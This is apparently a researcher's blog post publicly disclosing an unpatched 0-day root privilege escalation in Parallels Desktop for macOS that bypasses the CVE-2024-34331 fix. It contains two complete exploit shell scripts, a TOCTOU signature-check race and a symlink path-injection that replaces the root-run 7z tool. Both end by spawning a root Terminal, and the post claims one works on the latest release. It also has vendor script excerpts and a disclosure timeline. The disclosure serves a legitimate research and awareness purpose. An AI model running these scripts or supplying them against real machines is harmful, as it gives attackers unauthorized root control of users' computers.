




Today, I am disclosing a **0-day vulnerability** that bypasses the patch for [CVE-2024-34331](https://khronokernel.com/macos/2024/05/30/CVE-2024-34331.html). I have identified **two distinct methods** to circumvent the fix. Both bypasses were reported separately to the [Zero Day Initiative (ZDI)](https://www.zerodayinitiative.com/) and the affected vendor [Parallels](https://www.parallels.com/). Unfortunately, their responses have been deeply unsatisfactory.

Given that the vendor has left this vulnerability unaddressed for **over seven months**—despite prior disclosure—I have chosen to publicly disclose this 0-day exploit. My goal is to raise awareness and urge users to **mitigate risks proactively**, as attackers could leverage this flaw in the wild.

# Background

After reading Mykola's blog about the old [CVE-2024-34331](https://khronokernel.com/macos/2024/05/30/CVE-2024-34331.html), I realized that Parallels’ patch is really easy to bypass:



It’s recommended to read his original blog first.

# Bypasses

The patching code is to verify whether the tool `createinstallmedia` is Apple-signed. If yes, then it will spawn the tool `createinstallmedia` with **root privilege**. Otherwise, it will exit with an error.

There are at least two different ways to bypass the verification here:

1. Bypass via a **TOCTOU** attack: After passing the signature verification, and before it spawns the tool, an attacker has enough time to replace the tool `createinstallmedia` with a malicious one!
2. The requirement string **"anchor apple"** for the signature verification is too weak! An attacker can find an **Apple-signed** executable binary (e.g., the system command `ls`), and then **inject** a malicious DYLIB into the Apple’s binary to bypass the signature verification directly! I have talked about this trick in [my previous blog](https://jhftss.github.io/CVE-2024-54527-MediaLibraryService-Full-TCC-Bypass/).

# Exploit 1

The exploit script for the function `do_repack_createinstallmedia` is as follows:

```
#!/bin/sh
# Bypass the patch of CVE-2024-34331 via TOCTOU

echo "[?] whoami; id"
whoami
id

echo "[*] Dropping a payload..."
cat << EOF > /tmp/payload
#!/bin/sh
touch /Library/lpe
/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal &
EOF

chmod +x /tmp/payload

echo "[*] Dropping a fake macOS installer..."
mkdir -p /tmp/poc.app/Contents/Resources
cp /bin/ls /tmp/poc.app/Contents/Resources/createinstallmedia
defaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName createinstallmedia

echo "[*] Trigger the repack..."
open /tmp/poc.app -a /Applications/Parallels\ Desktop.app

echo "[*] Waitting for the verification..."
dir_pattern="/Users/$USER/Parallels/*iso.tmp.*"
# Check if the random directory exists
while [ -z "$(ls -d $dir_pattern 2>/dev/null)" ]; do
    :
done

mv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmedia
echo "[*] All done. Enjoy the root shell :P"

```

# Timeline

Mykola post his blog on May 30. 

I reported this bypass to the ZDI immediately on May 31.

However, the ZDI is too late to handle this report, then something changed:



The ZDI told me that they couldn’t reproduce the exploit on the version `19.4.1`, but the latest version was `19.4.0` when I submitted this report. They began to investigate this case **six weeks after my report**!

# Something changed since the version 19.4.1

Through my research, I found that the `repack` command line was changed in the executable binary `prl_disp_service`:



In the version `19.4.0`, the command line is: `/bin/bash /Applications/Parallels Desktop.app/Contents/Resources//repack_osx_install_app.sh repack /private/tmp/poc.app /Users/fuzz/Parallels/macOS image file.iso -w`

In the version `19.4.1`, the command line is: `/bin/bash /Applications/Parallels Desktop.app/Contents/Resources//repack_osx_install_app.sh repack /private/tmp/poc.app /Users/fuzz/Parallels/macOS image file.dmg -w -z /Applications/Parallels Desktop.app/Contents/MacOS//7z` 

From the script `Parallels Desktop.app/Contents/Resources/repack_osx_install_app.sh`:

```
do_repack() {
	# Parse and check args/options
	if [[ $# -lt 2 ]]; then
		echo "Please specify the app bundle and resulting image file path."
		return $ERR_INVALID_ARG
	fi

	local source_app="${1%/}"
	local result_dmg="$2"
	shift 2

	local overwrite="n"
	local p7z_tool=""
	while getopts wz: OPT; do
		case "$OPT" in
		w) overwrite="y" ;;
		z) p7z_tool="$OPTARG" ;;
		esac
	done
...
	# Do repack (using 7z tool, if specified, or native tools only)
	if [[ -f "$source_app/Contents/SharedSupport/InstallESD.dmg" || -n "$p7z_tool" ]]; then
		do_repack_manual "$source_app" "$result_dmg" "$p7z_tool"
	else
		do_repack_createinstallmedia "$source_app" "$result_dmg"
	fi
}
```

We can know that it now uses the function `do_repack_manual`, instead of the function `do_repack_createinstallmedia`.

# The new issue

Okay, let’s check the function `do_repack_manual`:

```
do_repack_manual() {
	local source_app="$1"
	local result_dmg="$2"
	local p7z_tool="$3"

	# make temp directory for files manupulation
	temp_dir="$(mktemp -d -t 'osx_install_diskimage')"
	local temp_contents_dir="$temp_dir"/contents
	mkdir "$temp_contents_dir"

	local source_app_basename="$(basename "$source_app")"

	local result_vol_name="$(defaults read "$source_app"/Contents/Info CFBundleDisplayName)"
	local temp_result_dir=""

	local kernelcache_name=""
	local bootefi_name=""

	if [[ -z "$p7z_tool" ]]; then
		...
	else
		local base_system_dmg=""
		local temp_base_system_dmg=""

		if [[ -e "$source_app"/Contents/SharedSupport/BaseSystem.dmg ]]; then
			base_system_dmg="$source_app"/Contents/SharedSupport/BaseSystem.dmg
		elif [[ -e "$source_app"/Contents/SharedSupport/InstallESD.dmg ]]; then
...
		elif [[ -e "$source_app"/Contents/SharedSupport/SharedSupport.dmg ]]; then
...
		fi

		# Extract (via 7z) boot.efi, prelinkedkernel, ... from BaseSystem.dmg
		[ -e "$base_system_dmg" ] && "$p7z_tool" e -aos -o"$temp_contents_dir" "$base_system_dmg" \
			*/System/Library/PrelinkedKernels/prelinkedkernel \
			*/System/Library/Caches/com.apple.kext.caches/Startup/kernelcache \
			*/System/Library/CoreServices/bootbase.efi \
			*/System/Library/CoreServices/boot.efi \
			*/System/Library/CoreServices/SystemVersion.plist \
			*/System/Library/CoreServices/PlatformSupport.plist

		[ -z "$temp_base_system_dmg" ] || rm -- "$temp_base_system_dmg"
	fi
...

	if [[ -z "$p7z_tool" ]]; then
		...
	else
		# Make directory for "hybrid CD" creation
		temp_result_dir="$temp_dir"/"$result_vol_name"
		mkdir "$temp_result_dir"
	fi

	# Compose resulting .dmg contents (copy .app bundle, boot and kernel files, ...)

	move_file "$temp_contents_dir"/"$bootefi_name" "$temp_result_dir"/System/Library/CoreServices/boot.efi
	move_file "$temp_contents_dir"/SystemVersion.plist "$temp_result_dir"/System/Library/CoreServices/SystemVersion.plist
	move_file "$temp_contents_dir"/PlatformSupport.plist "$temp_result_dir"/System/Library/CoreServices/PlatformSupport.plist
...

	if [[ -e "$temp_contents_dir"/"$kernelcache_name" ]]; then
...
	fi

	if [[ -e "$source_app"/Contents/SharedSupport/SharedSupport.dmg ]]; then
...
	fi

	# Copy source .app into image
	cp -R "$source_app" "$temp_result_dir"

	if [[ -z "$p7z_tool" ]]; then
...
	else
...
		rm -rf -- "$temp_result_dir"
		"$p7z_tool" e -tapm -so -aos "$temp_hybrid_cd_dmg" *.hfs > "$temp_hfs_partition_dmg" || true
...
	fi
...
}
```

At line 13: the variable `$result_vol_name` is controlled by an attacker, and thus the path `$temp_result_dir` at line 50 is also controlled.

At line 70 (`# Copy source .app into image`): both the source path `$source_app` and the destination path `$temp_result_dir` are controlled. So an attacker can get a primitive to write arbitrary contents to an arbitraty root-owned path.

In my exploit below, I overwrite the `$p7z_tool`, which will be spawned at line 77 with **root privilege**. (This is allowed by **TCC App Management**.)


There are some challenges for my exploit due to the error handling code in the `repack_osx_install_app.sh`:

```
trap "cleanup; exit $ERR_UNEXPECTED" ERR
```

1. At line 51, the `$temp_result_dir` shouldn’t exist, otherwise `mkdir` will return an error. 
   1. Solution: Use a symlink to redirect the root-owned result folder.

2. From line 56 to 58, the source paths must exist for the `move_file` operation, otherwise it will return the error: path not exist. 
   1. Solution: Make a crafted `BaseSystem.dmg` for `7z` to extract.


# Exploit 2

The new exploit script for the function `do_repack_manual` is as follows:

```
#!/bin/sh

echo "[?] whoami; id"
whoami
id

echo "[*] Dropping a payload..."
cat << EOF > /tmp/payload
#!/bin/sh
touch /Library/lpe
/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal
EOF

chmod +x /tmp/payload

echo "[*] Dropping a fake macOS installer..."
mkdir -p /tmp/poc.app/Contents/Resources
mv /tmp/payload /tmp/poc.app/Contents/Resources/createinstallmedia
defaults write /tmp/poc.app/Contents/Info.plist CFBundleDisplayName ../../../../../../tmp/lnk/result

# redirect the root-owned folder "result"
mkdir /tmp/redirect
ln -s /tmp/redirect /tmp/lnk

echo "[*] Dropping a fake BaseSystem.dmg..."
mkdir -p /tmp/tmp/System/Library/CoreServices/
touch /tmp/tmp/System/Library/CoreServices/boot.efi
touch /tmp/tmp/System/Library/CoreServices/SystemVersion.plist
touch /tmp/tmp/System/Library/CoreServices/PlatformSupport.plist
/Applications/Parallels\ Desktop.app/Contents/MacOS/7z a 1.zip /tmp/tmp
mkdir -p /tmp/poc.app/Contents/SharedSupport/
mv 1.zip /tmp/poc.app/Contents/SharedSupport/BaseSystem.dmg

mkdir -p /tmp/dst/result/poc.app/Contents/Resources
# in the command:
# cp -R "$source_app" "$temp_result_dir"
# the 7z command will be replaced by my payload
ln -s /Applications/Parallels\ Desktop.app/Contents/MacOS/7z /tmp/dst/result/poc.app/Contents/Resources/createinstallmedia

echo "[*] Trigger the repack..."
open /tmp/poc.app -a /Applications/Parallels\ Desktop.app

echo "[*] Waitting for the temp_result_dir..."
while [ ! -d "/tmp/redirect/result" ]; do
	:
done
ln -sfn /tmp/dst /tmp/lnk

echo "[*] All done. Enjoy the root shell :P"

```


# Timeline

This time, I **don’t trust the ZDI any more**. So I decided to report this new issue to the vendor directly:



| Date       | Action                                            |
| ---------- | ------------------------------------------------- |
| 2024-07-22 | Me: Initial report sent to security@parallels.com |
| 2024-07-23 | Parallels: Will analyze the report                |
| 2024-10-23 | Me: Ask for an update -> **No response**          |
| 2025-02-12 | Me: Ask for an update -> **No response**          |
| 2025-02-19 | Me: Ask for an update -> **No response**          |
| 2025-02-20 | Me: 0 day disclosure                              |

Since the vendor **Parallels is playing deaf and dumb**, I have to disclose the **0 day exploit** now. Both the [Zero Day Initiative (ZDI)](https://www.zerodayinitiative.com/) and the affected vendor [Parallels](https://www.parallels.com/) are disappointing, aren’t they?

# 0 day for the lastest version

Through my test, I found that Parallels has revert the change on the version 19.4.1.

Now, they've switched back to using the function `do_repack_createinstallmedia`.

So my **exploit 1** works on the latest version `20.2.1 (55876)`, demo video:

[https://youtu.be/j91H7shqsBE](https://youtu.be/j91H7shqsBE)


